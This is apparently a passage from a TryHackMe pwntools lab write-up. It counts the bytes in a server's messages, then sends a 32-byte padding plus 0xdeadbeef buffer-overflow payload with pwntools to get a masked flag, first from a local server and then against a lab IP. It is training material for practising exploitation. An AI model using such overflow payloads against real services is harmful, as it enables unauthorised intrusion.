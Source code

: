 ```bash
From client: %s	 
Thank you!
flag{*****************}

```

We need exact byte counts of what the server sends. In this case the number of characters in the strings "Give me deadbeef: " and "Thank you!
flag{*****************}" Note: the newline (counted as one byte). The use of the -n flag ( no -new line) ensures an accurate
byte count cause the echo command adds a new line by default.

```bash

┌──(root💀kali)-[~/…/THM/IntroToPwntools/IntroToPwntools/networking]
└─# echo -n 'Give me deadbeef: ' | wc -c
18
                                                                 
┌──(root💀kali)-[~/…/THM/IntroToPwntools/IntroToPwntools/networking]
└─# echo -n 'Thank you!                 
flag{*****************}' | wc -c
34

```


```bash

└─# ./serve_test
Socket successfully created..
Socket successfully binded..
Server listening..
server acccept the client...
From client: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaﾭ�	 

```

using the python3 interpreter, we can run commands against the binary by setting it up as a server from our own machine on port 1336. 
The binary is hardcoded to run on port 1336 and 1337 remotely.

```python 

>>> from pwn import *
>>> connect = remote('127.0.0.1',1336)
[x] Opening connection to 127.0.0.1 on port 1336
[x] Opening connection to 127.0.0.1 on port 1336: Trying 127.0.0.1
[+] Opening connection to 127.0.0.1 on port 1336: Done
>>> print(connect.recvn(18))
b'Give me deadbeef: '
>>> payload = b"a"*32
>>> payload += p32(0xdeadbeef)
>>> connect.send(payload)
>>> print(connect.recvn(34))
b'Thank you!\nflag{*****************}'
>>> connect.close()
[*] Closed connection to 127.0.0.1 port 1336


```python

└─# python3
Python 3.9.9 (main, Nov 16 2021, 10:24:31) 
[GCC 11.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> from pwn import *
>>> connect = remote('10.10.253.254',1337)
```